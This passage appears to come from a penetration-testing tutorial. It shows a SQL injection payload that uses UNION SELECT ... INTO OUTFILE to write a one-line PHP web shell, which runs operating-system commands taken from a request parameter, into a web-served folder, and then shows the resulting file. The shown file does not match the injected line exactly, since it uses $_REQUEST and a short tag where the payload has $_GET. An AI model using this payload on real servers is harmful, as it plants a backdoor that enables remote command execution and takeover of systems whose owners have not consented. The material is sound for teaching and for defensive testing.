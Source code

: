 
We'll issue the **UNION SELECT** SQL keywords to include a single PHP line into the first column and save it as **webshell.php** in a writable web folder.
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

The written PHP code file results in the following:
```
<? system($_REQUEST['cmd']); ?>
```